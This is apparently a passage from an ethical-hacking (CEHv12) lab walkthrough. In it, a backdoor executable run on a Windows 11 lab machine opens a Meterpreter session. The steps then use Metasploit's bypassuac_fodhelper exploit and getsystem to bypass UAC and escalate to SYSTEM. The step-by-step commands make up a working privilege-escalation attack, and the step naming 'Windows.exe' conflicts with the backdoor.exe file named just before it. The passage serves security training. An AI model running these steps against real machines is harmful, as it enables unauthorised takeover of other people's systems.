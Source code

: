 ### 


20. Once you click on the **backdoor.exe** file, the **Opening backdoor.exe** pop-up appears click on **Save File**.
21. Navigate to **Downloads** and double-click the Windows.exe file. The **Open File - Security** Warning window appears; click **Run**.

### 


22. Leave the **Windows 11** machine running and click **CEHv12 Parrot Security** to switch to the **Parrot Security** machine.
23. The Meterpreter session has successfully been opened, as shown in the screenshot.

### 


24. Type **sysinfo** and press **Enter**. Issuing this command displays target machine information such as computer name, OS, and domain.
25. Type **getuid** and press **Enter** to display current user ID.

### 


26. Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
27. Type **background** and press **Enter** to background the current session.

```
Note: In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a
bypassuac_fodhelper exploit.
```
28. In the terminal window, type **use exploit/windows/local/bypassuac_fodhelper** and press **Enter**.
29. Now type **set session 1** and press **Enter**.
30. Type **show options** in the meterpreter console and press **Enter**.

### 


31. To set the **LHOST** option, type **set LHOST 10.10.1.13** and press **Enter**.
32. To set the **TARGET** option, type **set TARGET 0** and press **Enter** (here, 0 indicates nothing, but the Exploit Target ID).
33. Type **exploit** and press **Enter** to begin the exploit on Windows 11 machine.

### 


34. The BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine.
35. Type **getsystem -t 1** and press **Enter** to elevate privileges.

### 

